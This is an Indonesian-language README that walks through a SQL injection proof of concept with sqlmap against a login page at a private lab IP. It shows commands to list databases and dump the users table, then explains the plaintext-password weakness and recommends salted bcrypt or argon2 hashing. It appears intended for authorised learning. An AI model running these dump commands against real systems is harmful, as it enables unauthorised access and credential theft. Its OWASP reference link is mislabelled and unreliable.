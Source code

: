 # SQL Injection Proof of Concept (PoC) Using SQLMap

## Deskripsi
Dokumen ini adalah *Proof of Concept (PoC)* untuk menguji kerentanan SQL Injection pada endpoint `http://192.168.1.5/users/login.php` menggunakan `sqlmap`. Uji coba ini bertujuan untuk mengeksplorasi database, menemukan tabel pengguna, dan meninjau cara penyimpanan password pengguna di database.

> **Peringatan**: Ini adalah PoC yang hanya boleh digunakan pada sistem yang Anda miliki atau memiliki izin resmi untuk diuji. Mengakses atau memodifikasi data tanpa izin melanggar hukum.

---

## Prasyarat
1. **sqlmap** terinstal di sistem Anda. Untuk mengunduh, kunjungi [sqlmap.org](https://sqlmap.org/).
2. Akses ke endpoint `http://192.168.1.5/users/login.php`.

---

## Langkah-Langkah Eksekusi

### 1. Menemukan Database yang Tersedia
Gunakan perintah berikut untuk menemukan database yang tersedia di server:

```bash
sqlmap -u "http://192.168.1.5/users/login.php" --data="username=admin&password=password" --dbs
```

#### Penjelasan Parameter
- `-u "http://192.168.1.5/users/login.php"`: Menentukan URL target.
- `--data="username=admin&password=password"`: Mengirim data POST dengan parameter `username` dan `password`.
- `--dbs`: Meminta `sqlmap` untuk menampilkan daftar database yang tersedia di server.

#### Contoh Output
Output dari langkah ini akan menampilkan daftar database yang tersedia, misalnya:

```plaintext
[INFO] retrieved: blog_db
[INFO] retrieved: test_db
```

### 2. Mengambil Data dari Tabel `users` di Database `blog_db`
Setelah database ditemukan, kita bisa mengambil data dari tabel tertentu. Gunakan perintah berikut untuk mengambil data dari tabel `users` di database `blog_db`:

```bash
sqlmap -u "http://192.168.1.5/users/login.php" --data="username=admin&password=password" -D blog_db -T users --dump
```

#### Penjelasan Parameter
- `-D blog_db`: Menentukan nama database (`blog_db`) yang ingin diakses.
- `-T users`: Menentukan nama tabel (`users`) yang ingin diambil datanya.
- `--dump`: Menginstruksikan `sqlmap` untuk menampilkan seluruh data dari tabel yang ditargetkan.

#### Contoh Output
Output dari perintah ini mungkin menampilkan data seperti berikut:

![alt text](https://github.com/RafiNashirudin/OWASP-TOP-10/blob/main/A03%3A2021-Injection/Image/injection.png?raw=true)

Pada hasil di atas, terlihat bahwa kolom `password` menyimpan password dalam bentuk teks biasa (*plain text*), bukan dalam bentuk yang terenkripsi atau di-hash. Ini adalah kelemahan serius yang masuk dalam kategori **Cryptographic Failures**.

---

## Analisis Kelemahan: Cryptographic Failures
### Penjelasan
Menyimpan password dalam bentuk teks biasa merupakan contoh *Cryptographic Failures*, di mana data sensitif seperti password tidak dilindungi dengan metode kriptografi yang tepat. Kelemahan ini dapat menyebabkan risiko besar bagi keamanan data pengguna.

### Dampak
1. **Akses Tidak Sah**: Jika terjadi pelanggaran data, penyerang bisa langsung melihat dan menggunakan password.
2. **Kegagalan Kepatuhan**: Banyak standar keamanan (misalnya, GDPR, HIPAA, PCI-DSS) mengharuskan data sensitif dienkripsi atau di-hash.
3. **Penyalahgunaan Kredensial**: Jika pengguna memakai ulang password di sistem lain, hal ini bisa mengakibatkan serangan yang meluas.

### Rekomendasi
Untuk mencegah kelemahan ini:
- **Hash Password dengan Algoritma yang Aman**: Gunakan hashing dengan algoritma yang kuat seperti `bcrypt`, `argon2`, atau `scrypt`.
- **Implementasikan Salt dan Pepper**: Tambahkan salt (nilai acak) pada setiap password sebelum hashing untuk meningkatkan keamanan dan mencegah serangan *rainbow table*.
- **Jangan Simpan Password dalam Teks Biasa**: Hindari menyimpan data sensitif dalam bentuk teks yang dapat dibaca langsung.

---

## Output yang Diharapkan dengan Penanganan yang Benar
Jika password disimpan dengan hashing yang benar, hasil dump seharusnya menunjukkan string acak yang terenkripsi, misalnya:

```plaintext
+----+----------+-------------------------------------------+
| id | username | password                                  |
+----+----------+-------------------------------------------+
| 1  | admin    | $2y$12$ePjDf5Kjd91ahZn/rF2ZLO3MC5E1.Ln.bD |
| 2  | user     | $2y$12$HtXmX47SDh2PAphH71HX93r/Kz6Re9kjgq |
+----+----------+-------------------------------------------+
```

---

## Gambar Hasil Eksekusi

### Hasil Langkah 1: Menemukan Database yang Tersedia
![Database List](images/database_list_result.png)

### Hasil Langkah 2: Mengambil Data dari Tabel `users`
![User Table Dump](images/user_table_dump.png)

Gambar di atas menunjukkan data dari tabel `users` yang menyimpan password dalam bentuk teks biasa, yang merupakan contoh *Cryptographic Failures*.

---

## Referensi
- [SQLMap Documentation](https://sqlmap.org/)
- [OWASP Cryptographic Failures](https://owasp.org/Top10/A03_2021-Cryptographic_Failures/)

---

> **Catatan Penting**: Pastikan Anda memiliki izin untuk melakukan pengujian ini. Semua pengujian dan eksplorasi dalam dokumen ini hanya untuk tujuan pembelajaran di lingkungan yang diizinkan.
```

Dalam `README.md` ini, penjelasan mengenai *Cryptographic Failures* sudah termasuk dampak dan rekomendasi solusi untuk mencegah kelemahan tersebut. Selain itu, gambar hasil eksekusi dapat ditempatkan sesuai instruksi di bagian gambar untuk membantu memberikan visualisasi.
